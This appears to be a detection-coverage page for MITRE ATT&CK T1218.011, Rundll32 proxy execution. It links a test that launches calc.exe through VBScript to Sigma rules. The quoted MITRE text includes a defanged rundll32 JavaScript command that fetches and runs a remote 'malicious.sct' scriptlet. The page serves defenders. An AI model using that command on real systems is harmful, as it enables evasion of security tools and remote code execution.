 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: Rundll32 

Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. [Shared Modules](https://attack.mitre.org/techniques/T1129)), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations. Rundll32.exe is commonly associated with executing DLL payloads.

Rundll32.exe can also be used to execute [Control Panel](https://attack.mitre.org/techniques/T1218/002) Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1218.011


# Test : Rundll32 execute VBscript command
## OS
  - windows


## Description:
Test execution of a command using rundll32.exe and VBscript in a similar manner to the JavaScript test.
Technique documented by Hexacorn- http://www.hexacorn.com/blog/2019/10/29/rundll32-with-a-vbscript-protocol/
Upon execution calc.exe will be launched


# Sigma Rule
 - win_pc_susp_rundll32_script_run.yml (id: 73fcad2e-ff14-4c38-b11d-4172c8ac86c7)

 - win_run_executable_invalid_extension.yml (id: c3a99af4-35a9-4668-879e-c09aeb4f2bdf)



[back](../index.md)
